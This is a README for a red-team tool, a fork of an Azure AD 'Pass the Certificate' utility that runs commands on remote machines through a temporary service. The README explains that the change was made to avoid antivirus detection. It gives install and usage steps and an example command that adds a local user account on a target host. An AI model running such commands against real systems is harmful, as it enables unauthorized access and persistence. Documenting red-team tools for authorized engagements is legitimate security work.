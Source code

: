 A fork of the Pass the Certificate tool by Mor Rubin: https://github.com/morRubin/AzureADJoinedMachinePTC

The original tool invokes remcomsvc which is detected as malicious by almost any vendor.
The tool now simply creates a service with the given command, executes it and deletes the service.
** Made for authorized Red Team engagements / experiments only! use at your own risk ****

## Installation
The code is compatible with Python 3.6+
Download the repository from GitHub, install the dependencies and you should be good to go

```
pip3 install impacket minikerberos cryptography==3.1.1 pyasn1
```

## Usage

```
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip
               REMOTEIP --command COMMAND
```

## Example

```
Main.py --usercert "p2pcert.pfx" --certpass Aa123456 --remoteip 192.168.47.192 --command "net user test Aa123456 /add"
```

## License
MIT

## Credits
* [Mor Rubin] for the amazing research and authentication implementation
